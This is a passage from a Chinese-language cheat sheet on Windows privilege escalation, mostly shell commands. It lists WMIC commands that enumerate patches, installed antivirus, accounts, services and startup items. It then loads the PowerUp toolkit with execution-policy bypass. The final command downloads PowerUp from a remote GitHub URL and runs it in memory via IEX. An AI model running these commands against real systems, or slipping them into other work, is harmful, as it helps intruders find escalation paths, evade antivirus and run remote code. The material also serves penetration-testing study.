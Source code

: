 # 操作系统提权

## Windows提权

### 信息收集

```shell
#补丁信息、补丁包过滤
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KBxxxxxx" /C:"KBxxxxxx"
#获取杀软名
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
#获取杀软名和安装路径：
WMIC /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
#组帐户管理。
wmic group
#已安装操作系统的管理。
wmic os
#进程管理
wmic process
#服务应用程序管理。
wmic service
#用户帐户管理。
wmic useraccount
#当用户登录到计算机系统时自动运行的命令的管理。
wmic startup
#网络接口控制器(NIC)管理
wmic nic
```

**自动信息收集——PowerUP**

```shell
#加载脚本
powershell -nop -ep bypass
Import-Module .\PowerUp.psm1
#查看所有模块
Get-Command -Module powerup
#导出结果
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**CMD启动**

```shell
powershell -ep bypass -c "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

**内存加载运行**

```shell
powershell -nop -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"
```
